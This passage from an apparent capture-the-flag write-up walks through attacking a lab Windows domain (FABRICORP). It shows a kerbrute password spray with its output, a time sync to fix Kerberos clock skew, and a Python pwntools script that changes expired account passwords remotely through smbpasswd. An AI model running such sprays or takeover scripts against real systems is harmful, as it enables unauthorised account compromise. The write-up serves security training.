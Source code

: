 ```
kerbrute passwordspray --dc 10.10.10.193 -d FABRICORP users.txt Fabricorp01 -v

...
2020/06/18 08:16:39 >  [!] bnielson@FABRICORP:Fabricorp01 - [Root cause: KDC_Error] KDC_Error: AS Exchange Error: kerberos error response from KDC: KRB Error: (37) KRB_AP_ERR_SKEW Clock skew too great
2020/06/18 08:16:39 >  [!] sthompson@FABRICORP:Fabricorp01 - Invalid password
2020/06/18 08:16:39 >  [!] tlavel@FABRICORP:Fabricorp01 - [Root cause: KDC_Error] KDC_Error: AS Exchange Error: kerberos error response from KDC: KRB Error: (37) KRB_AP_ERR_SKEW Clock skew too great
2020/06/18 08:16:39 >  [!] bhult@FABRICORP:Fabricorp01 - [Root cause: KDC_Error] KDC_Error: AS Exchange Error: kerberos error response from KDC: KRB Error: (37) KRB_AP_ERR_SKEW Clock skew too great
...
```

It's interesting that we're getting a different error for tlavel, bnielson and bhult. If we do a quick udp nmap scan, we see that port 123 is open, so we can sync our time to the server:

```
...
123/udp   open          ntp          udp-response ttl 127 NTP v3
...
```

We'll use ntpdate to do this:

```
ntpdate -u fabricorp.local

18 Jun 08:37:16 ntpdate[17686]: step time server 10.10.10.193 offset +1042.801192 sec
```

Now, if we run kerbrute again, we get the following valid logins:

```
2020/06/18 08:37:30 >  [+] VALID LOGIN:  tlavel@FABRICORP:Fabricorp01
2020/06/18 08:37:30 >  [+] VALID LOGIN:  bhult@FABRICORP:Fabricorp01
2020/06/18 08:37:30 >  [+] VALID LOGIN:  bnielson@FABRICORP:Fabricorp01
```

We can try logging into different services (smb/rpc/winrm) with these credentials, but they're all either expired, or need to be changed on login, since the users haven't logged in for the first time yet. We can, however, use smbpasswd to change the password remotely:

Note: There's a ~20 second window before the password is reset to its default, so we have to be quick. We can use the following script:

reset.py:
```
from pwn import *
import sys

if len(sys.argv) < 3:
        print('Usage: ' + sys.argv[0] + ' <username> <new password>')
        sys.exit()

username = sys.argv[1]
password = sys.argv[2]

io = process(['smbpasswd', '-U', username, '-r', '10.10.10.193'])
io.recvuntil('Old SMB password:')
io.sendline('Fabricorp01')
io.recvuntil('New SMB password:')
io.sendline(password)
io.recvuntil('Retype new SMB password:')
io.sendline(password)
trash = io.recvline()
finish = io.recvline()
success(str(finish)[2:-3])
```